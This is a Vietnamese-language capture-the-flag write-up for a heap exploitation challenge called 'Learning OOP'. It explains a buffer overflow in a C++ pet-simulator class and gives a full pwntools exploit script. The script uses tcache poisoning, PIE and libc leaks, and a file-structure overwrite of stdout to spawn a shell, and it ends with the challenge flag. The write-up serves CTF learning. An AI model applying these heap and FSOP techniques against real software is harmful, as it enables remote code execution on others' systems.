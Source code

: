 ```yaml
---
title: PWN - Learning OOP
---
```



## Bug

Bug nằm ở hàm `set_name()` trong class `Animal`

```cpp
        void set_name() {
            std::cout << "Enter name: " << std::endl;
            std::cin >> this->name; // BUG: Buffer Overflow
        }
```

Ta thấy xuất hiện bug buffer overflow ở đây, trong các challegne heap, thường ta sẽ xử dụng bug này để thay đổi các metadata của chunk, từ đó làm các mục đích khác xa hơn

## Exploit

Mình không rành về C++ lắm, nên cách mình làm có phần dài và cầu kì hơn cách intended, intended là vtable hijack. Đối với cách làm của mình, mình chỉ đơn thuần là heap fengshui. Phân tích một chút về program:

```cpp
enum Status {
    FULL = 1,
    WELLRESTED = 2,
};

class Animal {
    public:
        Animal() {
            memset(this->name, 0x41, sizeof(this->name));
            this->age = 0;
            this->fullness = 10;
            this->status = Status::FULL | Status::WELLRESTED;
        }
        virtual void eat() {
            std::cout << "NOM" << std::endl;
            this->fullness = 20;
            this->status |= Status::FULL;
        }
        virtual void sleep() {
            std::cout << "ZZZ" << std::endl;
            this->status |= Status::WELLRESTED;
        }
        virtual void play() {
            std::cout << "Played with " << this->name << std::endl;
            this->status = 0;
        }
        virtual constexpr size_t get_max_age() = 0; // pure virtual function
        int age_up() {
            return ++this->age;
        }
        int fullness_down() {
            return --this->fullness;
        }
        void set_name() {
            std::cout << "Enter name: " << std::endl;
            std::cin >> this->name; // BUG: Buffer Overflow
        }
        char* get_name() {
            return this->name;
        }
        int get_status() {
            return this->status;
        }
        void die() {
            std::cout << this->name << " died :(" << std::endl;
            return;
        }
    protected:
        char name[0x100];
        int age;
        int fullness;
        int status;
};
```

Một class `Animal` được định nghĩa với các thuộc tính và phương thức khác nhau để mô phỏng hành vi của một con vật. Class này có các thuộc tính như name, `age`, `fullness` và `status`, cùng với các phương thức để ăn, ngủ, chơi và quản lý các thuộc tính này. Class này cũng có một số phương thức ảo để cho phép các lớp con định nghĩa hành vi cụ thể của chúng. Để ý thêm ta có hàm `update()`:

```cpp
void update() {
    for(size_t i = 0; i < MAX_PET_COUNT; i++) {
        Animal* pet = pets[i];
        if(pet != nullptr) {
            if(pet->fullness_down() == 0 || pet->age_up() > pet->get_max_age()) {
                pet->die();
                delete pet;
                pets[i] = nullptr;
                num_pets--;
            }
        }
    }
    return;
}
```

Hàm này sẽ free đi class đó, với các điều kiện như sau: `pet->fullness` = 0 hoặc `pet->age` > `pet->get_max_age()`. Để đơn giản mình chỉ cần quan tâm đến `pet->fullness`. Khi nó bằng 0 tức là nó sẽ free chunk đó. Và đây là exploit:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from time import sleep

# context.log_level = 'debug'
exe = context.binary = ELF('./learning_oop_patched', checksec=False)
libc = exe.libc

ru = lambda a: p.recvuntil(a)
lleak = lambda a, b: log.info(a + " = %#x" % b)

gdbscript = '''
init-pwndbg
# init-gef-bata
set max-visualize-chunk-size 0x500
# brva 0x1408
brva 0x15D1
brva 0x1605
brva 0x1639
brva 0x166A
# b *update
brva 0x1B28
c
'''

def start(argv=[]):
    if args.LOCAL:
        p = exe.process()
    elif args.REMOTE:
        host_port = sys.argv[1:]
        p = remote(host_port[0], int(host_port[1]), ssl=True)
    return p

def adopt(pet_type: int, name: bytes):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Choose pet species (1=Dog, 2=Cat, 3=Parrot, 4=Horse): ', f"{pet_type}".encode())
    p.sendlineafter(b'Enter name: ', name)


def play(pet_index: int):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'Which pet? ', f"{pet_index}".encode())


def feed(pet_index: int):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'Which pet? ', f"{pet_index}".encode())


def rest(pet_index: int):
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b'Which pet? ', f"{pet_index}".encode())

# ==================== EXPLOIT ====================
p = start()

adopt(1, b"0" * 0x100 + p32(0) + p32(3))
ru(b"Adopted new pet: ")
heap = int(p.recvline(), 16)
slog('heap @ %#x', heap)

adopt(1, b"1" * 0x100 + p32(0) + p32(3))
adopt(1, b"2" * 0x100 + p32(0) + p32(1))

sla(b"> ", b"6")

# tcache poisoning
mangle = (heap + 0x340) ^ (heap + 0x240) >> 12
adopt(1,  b"3" * 0x100 + p32(0) + p32(0x6) + p64(3) + p64(0x121) + p64(mangle))
adopt(1, b"4" * 0x100 + p32(0) + p32(0x2))

# overlap chunk
adopt(1, b"5" * 0x100 + p32(0) + p32(0x2) + b"5" * (0x2f0 - 0x110) + p64(0) + p64(0x21) + p64(0) * 3 + p64(0x21))

# leak pie
ru(b"4" * 0xf8)
pie = u64(rb(6).ljust(8, b"\x00")) - 0x4c98
slog('pie base @ %#x', pie)

# set up
adopt(1, b"6" * 0xf0 + p64(0x121) + p64(pie + 0x4c98) + p32(0) + p32(0x2))

sla(b"> ", b"6")
sla(b"> ", b"6")

# tcache poisoning
mangle = (heap) ^ (heap + 0x120) >> 12
adopt(1, b"7" * 0x100 + p32(0) + p32(0x3) + p64(3) + p64(0x121) + p64(mangle))
adopt(1, b"8" * 0x100)

# make fake unsortedbin
adopt(1, b"9" * 0x100 + p32(0) + p32(5) + p64(3) + p64(0x521)[:7])

# last remainder
adopt(1, b"A" * 0x100 + p32(0) + p32(2) + p64(3) + p64(0x401) + p64(pie + 0x4c98)[:7])

# leak libc
sla(b"> ", b"3")
ru(b"A" * 0x100)
ru(b"1. ")
libc_base = u64(p.recv(6).ljust(8, b"\x00")) - 0x203b20
slog('libc base @ %#x', libc_base)
sla(b"pet? \n", b"1")

sla(b"> ", b"6")

adopt(1, b"B" * 0x100 + p32(0) + p32(0x13) + p64(3) + p64(0x121)[:7])

for i in range(18):
	sla(b"> ", b"6")

if args.GDB:
    gdb.attach(p, gdbscript=gdbscript)
    pause()

# tcache poisioning
_IO_2_1_stdout_ = libc_base + libc.symbols['_IO_2_1_stdout_']
mangle = (_IO_2_1_stdout_ - 0x120) ^ (heap + 0x240) >> 12
adopt(1, b"C" * 0x100 + p32(0) + p32(5) + p64(3) + p64(0x121) + p64(mangle))
adopt(1, b"D" * 0x10)

system = libc_base + libc.symbols['system']
fp = FileStructure()
fp.flags = 0xfbad2484 + (u32(b"||sh") << 32)
fp._IO_read_end = system
fp._lock = _IO_2_1_stdout_ + 0x50
fp._wide_data = _IO_2_1_stdout_
fp.vtable = libc_base  + libc.symbols['_IO_wfile_jumps'] - 0x20
payload = bytes(fp) + p64(_IO_2_1_stdout_ + 0x10 - 0x68)

adopt(1, b"E" * 0x100 + p32(0) + p32(5) + p64(3) + b"E" * 8 + payload)

interactive()
# SEKAI{WOw11!1!Iii_UM4Z1NG_3xpl0it_sk1llz!!!!}
```
